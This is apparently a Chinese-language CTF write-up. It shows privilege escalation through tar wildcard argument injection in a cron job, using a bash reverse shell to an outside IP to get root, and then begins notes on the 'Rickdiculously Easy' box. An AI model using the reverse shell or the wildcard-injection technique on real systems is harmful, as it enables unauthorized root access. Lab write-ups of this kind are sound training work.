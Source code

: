 
![image.png](https://s2.loli.net/2025/05/03/P9iuO13Dqg2IWSE.png)

## ssh登录
找到一个定时计划

![image.png](https://s2.loli.net/2025/05/03/69kUGqTMlWwQIBz.png)

## 提权（定时计划利用）
新的提权方法

```bash
若任务包含 `tar *` 等命令，可利用通配符参数注入：
touch --checkpoint=1 --checkpoint-action=exec=/bin/sh
通配符滥用
```

```
vi shell.sh

#!/bin/bash
/bin/bash -c "bash -i >& /dev/tcp/10.17.40.203/6666 0>&1 "

touch ./"--checkpoint=1"
touch ./"--checkpoint-action=exec=sh shell.sh"

```

![image.png](https://s2.loli.net/2025/05/03/fNxubJ7cmHSqPvU.png)

成功获得root

![image.png](https://s2.loli.net/2025/05/03/nwFUQa41NdErfX5.png)


# Rickdiculously Easy
[[思/Rickdiculously Easy\|Rickdiculously Easy]]
ctf题目
## nmap端口扫描加文件路径爆破

发现有匿名登录的21端口

![](https://s2.loli.net/2025/05/03/4OKNc8YzdEPwXCA.png)

下载了一个flag.txt但无提示

![image.png](https://s2.loli.net/2025/05/03/gheKq5T1uZFWjLY.png)

pub文件下载不了

 换个位置 文件路径看看

